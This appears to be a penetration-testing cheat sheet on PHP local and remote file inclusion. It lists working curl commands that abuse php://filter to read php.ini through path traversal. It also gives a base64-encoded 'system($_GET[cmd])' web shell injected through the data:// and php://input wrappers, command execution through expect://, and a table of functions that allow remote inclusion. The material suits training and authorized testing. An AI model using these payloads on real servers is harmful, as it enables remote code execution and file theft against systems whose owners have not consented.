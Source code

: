 ### PHP Wrappers

#### Data Wrapper

```
# Checking PHP configurations for allow_url_include
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"

# Base64 encoding PHP code for data wrapper
echo '<?php system($_GET["cmd"]); ?>' | base64

# Executing PHP code remotely using data wrapper
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### Input Wrapper

```
# Executing PHP code using input wrapper (POST request)
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```

#### Expect Wrapper

```bash
# Checking if expect wrapper is installed on the server
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect

# Executing commands using expect wrapper
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"
```

# Remote File Inclusion (RFI)

1. Enumerating local-only ports and web applications (i.e. SSRF)
2. Gaining remote code execution by including a malicious script that we host

| Function | Read Content | Execute | Remote URL |
| --- | --- | --- | --- |
| PHP |  |  |  |
| include()/include_once() | ✅ | ✅ | ✅ |
| file_get_contents() | ✅ | ❌ | ✅ |
| Java |  |  |  |
| import | ✅ | ✅ | ✅ |
| .NET |  |  |  |
| @Html.RemotePartial() | ✅ | ❌ | ✅ |
| include | ✅ | ✅ | ✅ |
